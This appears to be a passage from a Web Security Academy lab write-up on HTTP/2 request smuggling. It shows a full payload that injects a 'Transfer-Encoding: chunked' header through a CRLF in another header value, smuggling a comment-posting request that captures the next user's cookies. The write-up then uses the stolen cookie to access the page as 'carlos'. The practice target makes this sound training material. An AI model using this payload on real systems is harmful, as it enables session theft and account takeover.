 The final payload is:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/2
...
Fo: ba\r\nTransfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

0

POST /post/comment HTTP/1.1
Host: 0a17003f0315a26781520cb5003200e0.web-security-academy.net
Cookie: session=BEv90Mt3fW0Ua3AiXdnRALcLTbcb1cfg; _lab_analytics=W8jIeMIzkpt2G9gyOcEFT7MFiZ9uNAOOZ88XEIvVkMgtrQsLrERyvJzQWYeBc1PbyatXyOMh1ZeLQyaqanxeybVTjzHVgx9YB99tmlK2eAkoQgvyLpNdoA3RE1zMyYP90bUEpeuwHcz8h0Fqcg8FLqvmVUbp1BAOCpmqjZ5jPJIVyleFT7Hye1PWojmaKKbY4pRRrF6d8yWPs1k4dP1aCt6d6UcTgLvoKp4Ji6amjKEGvwTm4s0cR8zPbWSmFnf0
Content-Length: 200

csrf=NO7t8vaJHMNuLmScMM45gMnp6NskWAQg&postId=9&name=test2&email=test3@test.com&website=http://test4.com&comment=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You can read the whole cookies in the comments:

![img](media/2290f91f710e1c53406989b60ef19e81.png)

And use the cookie to accecss the page as “carlos”:
